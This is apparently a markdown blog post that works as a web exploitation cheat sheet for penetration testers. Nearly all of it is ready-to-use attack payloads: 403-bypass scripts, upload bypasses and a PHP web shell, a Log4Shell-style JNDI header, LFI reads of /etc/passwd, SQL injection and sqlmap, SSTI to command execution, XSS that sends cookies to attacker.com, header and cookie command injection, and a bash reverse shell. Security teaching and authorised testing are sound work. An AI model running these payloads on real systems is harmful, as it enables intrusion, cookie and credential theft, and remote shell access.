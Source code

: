 ```yaml
---
title: "Exploitation"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [bypass, exploitation, xargs, payload, bash, wget, 403-bypass, file-upload, rce, lfi, ssti, sqlmap, xss, curl, ffuf, waf-bypass]
order: 2
image: /assets/images/Cyber-Security/Exploitation.png
---
```


After enumeration and reconnaissance, exploitation is where actual access or data extraction begins. This section contains practical exploitation tactics and one-liners used in real-world assessments.

## 403 Forbidden Bypass

```bash
wget https://raw.githubusercontent.com/Dheerajmadhukar/4-ZERO-3/refs/heads/main/403-bypass.sh
xargs -a 403 -I {} -n 1 ~/403-bypass.sh -u {} --exploit /DirectoryOrFile
cat 403_bypasses.out | grep PAYLOAD | awk '{for (i=5; i<=NF; i++) printf "%s ", $i; printf "\n"}'
```

### Additional Payloads (Manual Testing)
```bash
curl -X HEAD https://target.com/secret/
curl https://target.com/secret/.%2e/
curl -H "X-Original-URL: /admin" https://target.com/
curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/
```

## File Upload Bypass & Web Shells

### Common Upload Bypass Tricks
```bash
# Double extensions
file.php.jpg

# Null byte (if backend is vulnerable)
file.php%00.jpg

# Content-Type spoofing
curl -F "file=@shell.php;type=image/jpeg" https://target.com/upload
```

### PHP Shell Payload (Basic)
```php
<?php system($_GET['cmd']); ?>
```

Access via:
```bash
curl https://target.com/uploads/shell.php?cmd=id
```

## Remote Code Execution (RCE)

### RCE via `curl`
```bash
curl -X POST https://target.com/endpoint -d "input=|id"
```

### RCE via headers (Log4Shell-style)
```bash
curl https://target.com -H 'User-Agent: ${jndi:ldap://attacker.com/x}'
```

## Local File Inclusion (LFI)

### Testing LFI Paths
```bash
curl https://target.com/index.php?page=../../../../etc/passwd
curl https://target.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

### Wrappers & Payloads
```bash
curl https://target.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOz8=  # Executes base64-encoded PHP
```

## SQL Injection

### Basic Testing (Manual)
```bash
curl "https://target.com/item.php?id=1'"
curl "https://target.com/item.php?id=1--+"
curl "https://target.com/item.php?id=1 OR 1=1"
```

### Automated
```bash
sqlmap -u "https://target.com/item.php?id=1" --batch --risk=3 --level=5
```

## Server-Side Template Injection (SSTI)

Testing for SSTI

{% raw %}
```bash
curl https://target.com/page?name={{7*7}}
curl https://target.com/page?name=<%= 7 * 7 %>
```
{% endraw %}



### Exploitation

{% raw %}
```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```
{% endraw %}


## Cross-Site Scripting (XSS)

### Manual Payloads
```html
"><script>alert(1)</script>
<script>fetch('http://attacker.com?cookie='+document.cookie)</script>
```

### Testing with `dalfox`
```bash
dalfox url https://target.com/search?q=test
```

## Command Execution via Common Injection Points

### Header Injection
```bash
curl -H "Host: example.com; curl http://attacker.com" https://target.com
```

### Cookie Injection
```bash
curl -H "Cookie: SESSIONID=;curl http://attacker.com" https://target.com
```

## Screenshot After Exploitation

```bash
aquatone -out screenshots -ports large < alivesubdomains.txt
```

## Post-Exploitation Tips

- Always chain access: Upload shell → Get RCE → Run privilege escalation scripts
- Enumerate for crontabs, SUID, and passwords in configs
- Setup reverse shell listeners when working with limited environments

```bash
nc -lvnp 4444
bash -i >& /dev/tcp/attacker.com/4444 0>&1
```